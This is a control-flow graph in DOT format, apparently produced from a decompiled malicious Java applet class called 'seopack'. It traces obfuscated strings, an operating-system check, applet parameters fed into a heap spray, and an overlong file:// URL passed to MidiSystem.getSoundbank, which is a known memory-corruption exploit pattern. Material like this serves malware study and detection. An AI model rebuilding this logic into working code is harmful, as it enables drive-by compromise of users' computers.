 digraph "" {
    "r0 := @this: seopack"
    "push 47"
    "r0 := @this: seopack"->"push 47";
    "push 302"
    "push 47"->"push 302";
    "staticinvoke <seopack: java.lang.String repeat(char,int)>"
    "push 302"->"staticinvoke <seopack: java.lang.String repeat(char,int)>";
    "pop"
    "staticinvoke <seopack: java.lang.String repeat(char,int)>"->"pop";
    "push \"musoromusorsmusor.musornmusoramusormmusore\""
    "pop"->"push \"musoromusorsmusor.musornmusoramusormmusore\"";
    "push \"musor\""
    "push \"musoromusorsmusor.musornmusoramusormmusore\""->"push \"musor\"";
    "push \"\""
    "push \"musor\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "push \"musorwmusorimusornmusor\""
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"push \"musorwmusorimusornmusor\"";
    "push \"musorwmusorimusornmusor\""->"push \"musor\"";
    "push \"musor\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt return"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt return";
    "iflt return"->"push 47";
    "push 47"->"push 302";
    "push 302"->"staticinvoke <seopack: java.lang.String repeat(char,int)>";
    "store.r r27"
    "staticinvoke <seopack: java.lang.String repeat(char,int)>"->"store.r r27";
    "goto new java.lang.StringBuilder"
    "store.r r27"->"goto new java.lang.StringBuilder";
    "new java.lang.StringBuilder"
    "goto new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"musorfmusorimusorlmusoremusor:musor/musor/musor\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"musorfmusorimusorlmusoremusor:musor/musor/musor\"";
    "push \"musorfmusorimusorlmusoremusor:musor/musor/musor\""->"push \"musor\"";
    "push \"musor\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r27"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r27";
    "load.r r27"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"musorZmusor%musorZmusor%musorZmusor%musorZmusor%musorZmusor%musorZmusor%musor\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"musorZmusor%musorZmusor%musorZmusor%musorZmusor%musorZmusor%musorZmusor%musor\"";
    "push \"musorZmusor%musorZmusor%musorZmusor%musorZmusor%musorZmusor%musorZmusor%musor\""->"push \"musor\"";
    "push \"musor\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r27";
    "load.r r0"
    "store.r r27"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"musormusorsmusormusorcmusor\""
    "load.r r0"->"push \"musormusorsmusormusorcmusor\"";
    "push \"musormusorsmusormusorcmusor\""->"push \"musor\"";
    "push \"musor\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <seopack: java.lang.String getParameter(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <seopack: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <seopack: java.lang.String getParameter(java.lang.String)>"->"load.r r0";
    "push \"musornmusorpmusor\""
    "load.r r0"->"push \"musornmusorpmusor\"";
    "push \"musornmusorpmusor\""->"push \"musor\"";
    "push \"musor\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <seopack: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <seopack: java.nio.IntBuffer[] __w(java.lang.String,java.lang.String)>"
    "virtualinvoke <seopack: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <seopack: java.nio.IntBuffer[] __w(java.lang.String,java.lang.String)>";
    "fieldput <seopack: java.nio.IntBuffer[] __b>"
    "virtualinvoke <seopack: java.nio.IntBuffer[] __w(java.lang.String,java.lang.String)>"->"fieldput <seopack: java.nio.IntBuffer[] __b>";
    "new java.net.URL"
    "fieldput <seopack: java.nio.IntBuffer[] __b>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r27";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r27"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"->"pop";
    "push 10L"
    "pop"->"push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "goto push 10L"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 10L";
    "store.r r0"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "iflt return"->"return";
}
